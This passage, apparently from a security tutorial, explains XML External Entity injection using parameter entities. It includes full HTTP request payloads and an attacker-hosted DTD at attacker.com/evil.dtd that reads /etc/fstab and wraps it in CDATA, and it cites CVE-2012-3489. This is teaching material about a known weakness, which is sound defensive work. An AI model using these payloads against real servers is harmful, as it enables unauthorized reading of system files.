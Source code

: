 
**Request**

```html
POST http://example.com/xml HTTP/1.1
<!DOCTYPE data [
  <!ENTITY % paramEntity
  "<!ENTITY genEntity 'bar'>">
  %paramEntity;
]>
<data>&genEntity;</data>
```
**Expected Response**

```html
HTTP/1.0 200 OK
bar
```

With the above example in mind, an attacker can now take the theoretical CDATA example above and turn it into a working 
attack by creating a malicious DTD hosted on attacker.com/evil.dtd.


**Request**

```html
POST http://example.com/xml HTTP/1.1
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```


**Attacker DTD (attacker.com/evil.dtd)**

```html
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

When an attacker sends the above request, the XML parser will first attempt to process the %dtd parameter entity by making 
a request to http://attacker.com/evil.dtd The XML parser will load /etc/fstab and It will then wrap the contents of the 
file in <![CDATA[ ]]> tags using the %start and %end parameter entities respectively, and stores them in yet another 
parameter entity called %all. So the attacker can only use parameter entities inside of the DTD. The result is a response 
back to the attacker with the contents of the file (/etc/fstab) wrapped in CDATA tags.

This weakness appears, for example, on CVE-2012-3489.
